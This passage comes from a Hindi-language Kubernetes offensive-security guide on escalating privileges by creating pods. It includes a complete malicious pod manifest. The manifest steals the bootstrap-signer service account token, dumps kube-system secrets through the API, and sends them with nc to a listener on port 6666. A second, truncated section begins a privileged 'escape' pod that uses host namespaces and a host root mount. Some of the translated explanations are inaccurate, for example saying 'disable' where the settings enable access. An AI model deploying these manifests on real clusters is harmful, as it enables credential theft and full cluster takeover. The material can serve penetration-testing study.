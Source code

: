 ```yaml
resources: ["*"]
verbs: ["create", "list", "get"]
```
### पॉड बनाएं - टोकन चोरी

एक हमलावर "kube-system" नेमस्पेस में पॉड बनाने की अनुमति वाला एक अटैकर क्रिप्टोमाइनिंग कंटेनर बना सकता है। इसके अलावा, यदि किसी **सेवा खाते में विशेषाधिकार संग्रहित अनुमतियाँ हैं, तो उस सेवा के साथ पॉड चलाकर अनुमतियों का दुरुपयोग किया जा सकता है**।

यहां हमारे पास एक डिफ़ॉल्ट विशेषाधिकार वाला खाता है जिसका नाम _bootstrap-signer_ है और इसकी अनुमति है कि वह सभी सीक्रेट्स को सूचीबद्ध कर सके।

![](https://www.cyberark.com/wp-content/uploads/2018/12/rolebinding\_with\_cluster\_admin\_clusterrole-1024x545.png)

हमलावर एक दुष्ट पॉड बना सकता है जो विशेषाधिकारित सेवा का उपयोग करेगा। फिर, सेवा टोकन का दुरुपयोग करके, यह सीक्रेट्स को बाहर ले जाएगा:

![](https://www.cyberark.com/wp-content/uploads/2018/12/pods\_yaml\_with\_autoamountServiceAccountToken-1024x345.png)
```yaml
apiVersion: v1
kind: Pod
metadata:
name: alpine
namespace: kube-system
spec:
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
```
पिछली छवि में ध्यान दें कि _bootstrap-signer सेवा_ `serviceAccountname`_ में कैसे उपयोग किया जाता है।

तो बस एक दुष्ट पॉड बनाएं और पोर्ट 6666 में रहस्यों की उम्मीद करें:

### **पॉड बनाएं और छूटें**

निम्नलिखित परिभाषा एक कंटेनर को सभी विशेषाधिकार प्रदान करती है:

* **विशेषाधिकार पहुंच** (सुरक्षा सुरक्षा निष्क्रिय करना और क्षमताओं को सेट करना)
* **hostIPC और hostPid नेमस्पेस को निष्क्रिय करें** जो विशेषाधिकारों को बढ़ाने में मदद कर सकते हैं
* **hostNetwork नेमस्पेस को निष्क्रिय करें** जो नोड क्लाउड विशेषाधिकारों और नेटवर्कों के लिए बेहतर पहुंच प्रदान करता है
* **कंटेनर के अंदर माउंट होस्ट /**

{% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
name: ubuntu
labels:
app: ubuntu
spec:
# Uncomment and specify a specific node you want to debug
# nodeName: <insert-node-name-here>
containers:
- image: ubuntu
```